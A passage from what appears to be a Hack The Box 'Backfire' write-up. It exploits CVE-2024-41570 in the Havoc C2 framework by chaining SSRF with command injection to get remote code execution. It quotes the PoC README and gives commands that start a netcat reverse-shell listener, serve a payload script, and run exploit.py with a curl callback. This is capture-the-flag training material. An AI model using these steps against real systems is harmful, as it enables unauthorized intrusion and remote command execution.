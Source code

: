 ```
    Http {
        Name = "Demon Listener"
        Hosts = [
            "backfire.htb"
        ]
        HostBind = "127.0.0.1"
        PortBind = 8443
        PortConn = 8443
        HostRotation = "round-robin"
        Secure = true
    }
}
```

Googling known vulnerabilities for the C2, we quickly find `CVE-2024-41570`, and a few PoC Github repos. For me, the one that worked best was `thisisveryfunny/CVE-2024-41570-Havoc-C2-RCE` (see resources for the link). The vulnerability is explained pretty clearly in the README:

```
This is a Chained RCE (CVE-2024-41570) in the Havoc C2 framework.

Command injection: Havoc is vulnerable to command injection enabling an authenticated user to execute commands on the Teamserver. Affects versions 0.3 up to the latest release 0.6. Havoc's default profile contains hardcoded passwords, so a C2 operator careless enough to use the default profile on a public network can immediately be exploited.

SSRF: This vulnerability is exploited by spoofing a demon agent registration and checkins to open a TCP socket on the teamserver and read/write data from it. This allows attackers to leak origin IPs of teamservers and much more.

Chain: Abusing SSRF to deliver an authenticated command injection payload.
```

The description of the command injection vulnerability talks about default credentials, but since we found credentials in the `havoc.yaotl` file, it doesn't really matter. To exploit the vulnerability using the script, we first need to change a few values in `exploit.py`: the username and passwords (which can be found in the `havoc.yaotl` file), the target IP, the target port (it is the port 443 that we saw in the nmap scan), and finally the IP in the curl command that the server will execute to contact our HTTP server (so our IP and port of our python http server). We also need to adjust the `payload.sh` file so that it contains the address and port of our netcat listener. Once that is taken care of, we can launch the script.

```bash
# Start netcat
$ nc -nlvp 5555

# Start a python http server in the folder where payload.sh is
$ python -m http.server

# Launch the script. The IP and the target ports are the ones of the Teamserver in the havoc.yaotl configuration
# The IP is 127.0.0.1 since the request will be executed in the context of the victim
$ python exploit.py -t https://10.10.11.49 -i 127.0.0.1 -p 40056
```
